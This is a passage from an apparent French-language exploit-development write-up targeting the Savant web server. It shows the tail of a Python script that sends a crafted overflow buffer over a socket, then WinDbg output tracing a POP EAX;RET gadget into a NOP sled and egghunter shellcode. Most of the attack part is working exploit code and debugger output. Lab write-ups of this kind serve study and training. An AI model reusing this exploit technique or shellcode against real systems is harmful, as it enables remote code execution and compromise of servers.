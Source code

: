 ```py

  print("Sending buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```

On positionne un point d'arrêt sur l'adresse ou se trouve l'instruction `POP EAX;RET` :

```powershell
0:009> bp 0x00418674
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
```

On exécute le nouvel exploit et le point d'arrêt est atteint :

```powershell
0:009> g
Breakpoint 0 hit
eax=00000000 ebx=018d5778 ecx=0000000e edx=77841670 esi=018d5778 edi=0041703c
eip=00418674 esp=0460ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
Savant+0x18674:
00418674 58              pop     eax
```

On procède à l'exécution jusqu'à ce qu'un embranchement soit rencontré avec `ph`.

*The ph command executes the program until any kind of branching instruction is reached, including conditional or unconditional branches, calls, returns, and system calls.*

```powershell
0:004> ph
eax=0460fe70 ebx=018d5778 ecx=00000000 edx=77841670 esi=018d5778 edi=0041703c
eip=0460ea88 esp=0460ea34 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0460ea88 0f8411000000    je      0460ea9f                                [br=1]
#
# On décompile les opcodes à l'adresse `0460ea9f`. On retrouve bien les NOP + le code ASM pour le egghunter
0:004> u 0460ea9f L16
0460ea9f 90              nop
0460eaa0 90              nop
0460eaa1 90              nop
0460eaa2 90              nop
0460eaa3 90              nop
0460eaa4 90              nop
0460eaa5 6681caff0f      or      dx,0FFFh
0460eaaa 42              inc     edx
0460eaab 52              push    edx
0460eaac 6a02            push    2
0460eaae 58              pop     eax
0460eaaf cd2e            int     2Eh
0460eab1 3c05            cmp     al,5
0460eab3 5a              pop     edx
0460eab4 74ef            je      0460eaa5
0460eab6 b877303074      mov     eax,offset msvcp_win!_CTA2?AVbad_exceptionstd+0x13cab (74303077)
0460eabb 89d7            mov     edi,edx
0460eabd af              scas    dword ptr es:[edi]
0460eabe 75ea            jne     0460eaaa
0460eac0 af              scas    dword ptr es:[edi]
```